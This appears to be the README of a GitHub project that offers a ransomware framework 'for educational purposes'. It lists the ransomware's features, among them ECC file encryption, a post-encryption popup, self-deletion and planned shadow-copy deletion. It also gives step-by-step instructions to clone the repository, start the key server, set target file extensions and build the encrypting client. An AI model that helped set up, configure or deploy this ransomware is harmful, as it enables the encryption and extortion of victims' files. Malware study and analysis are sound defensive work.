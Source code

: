 # Ransomware-For-Study

[简体中文](./README-zh-cn.md)

Project Description:

This is a basic ransomware project framework for educational purposes, designed to:
- Provide insights for cybersecurity professionals combating malware
- Offer beginners in malware analysis a basic ransomware attack workflow

**WARNING:**
> 
    - This project is FOR EDUCATIONAL PURPOSES ONLY
    - STRICTLY PROHIBITED for any illegal use
    - The author bears no responsibility for misuse


---

## Key Features

1. Mutex creation to prevent multiple instances
2. ECC encryption with separate public/private key storage (only public key exposed during encryption)
3. Multi-threaded file encryption
4. Post-encryption notepad popup functionality
5. Self-deletion after encryption

---

**TODO (Pending Features):**

1. Volume shadow copy deletion
2. Desktop wallpaper replacement (resource section attempted but failed)
3. Multiple encryption method implementations
4. Multi-folder polling

~~5. HTTPS for public key transmission~~

## Installation

**Important:**
This project only works on Windows OS!

### 1. Download Project
```bash
git clone https://github.com/CuteCuteYu/RansomwareFS
```

### 2. Initialize Project
```bash
cd RansomwareFS
go mod tidy
```

### 3. Start Public Key Server

**Recommendation:** Replace the SSL certificates with ones from other sources before starting

Certificate location:
`ssl-cert` folder

```bash
go run ./server.go ./handler.go
```

### 4. Configuration

#### 4.1 File Extensions and Encryption Threads
`./client/enc_file/enc_file.go`
```go
const (
	FileExtension = ".exe"
	ThreadNumber  = 10 // Number of threads to use for encryption
)
```

#### 4.2 Server Address for Public Key Retrieval
`./client/get_pub_key/get_pub_key.go`
```go
const (
	ServerAddr = "localhost"
	ServerPort = "8080"
)
```

#### 4.3 Mutex Name Configuration
`./client/mutex/mutex.go`
```go
mutexName := "Global\\mypkg_mutex"
```

### 5. Run or Build Client

#### 5.1 Direct Run
```bash
go run ./cmd/client/main.go
```

#### 5.2 Build Executable
```bash
go build ./cmd/client/main.go

